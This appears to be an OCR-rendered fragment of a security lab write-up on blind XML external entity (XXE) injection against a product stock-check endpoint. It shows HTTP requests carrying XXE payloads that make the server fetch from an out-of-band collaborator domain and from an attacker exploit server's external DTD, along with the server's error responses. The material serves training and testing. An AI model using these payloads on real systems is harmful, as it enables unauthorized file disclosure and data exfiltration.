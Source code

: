 * Response
```xml
HTTP/2 400 Bad Request
Content-Type: application/json;
charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 20
"Invalid product ID"
```

* Attacker Controlled Server - Received PING

* Request
```xml
POST /product/stock HTTP/2
...
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY % xxe SYSTEM
"http://5697t6jfs9qkgsaggzopz5qjgam1aty
i.oastify.com"> %xxe; ]>
<stockCheck>
<productId>
17
</productId>
<storeId>
1
</storeId>
</stockCheck>
```
* Response
```xml
HTTP/2 400 Bad Request
Content-Type: application/json;
charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 20
"XML parsing error"
```

* Request
```xml
POST /product/stock HTTP/2
...
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY % xxe SYSTEM
"https://exploit-
server.net/external.dtd"> %xxe; ]>
<stockCheck>
<productId>
17
</productId>
<storeId>
1
</storeId>
</stockCheck>
```
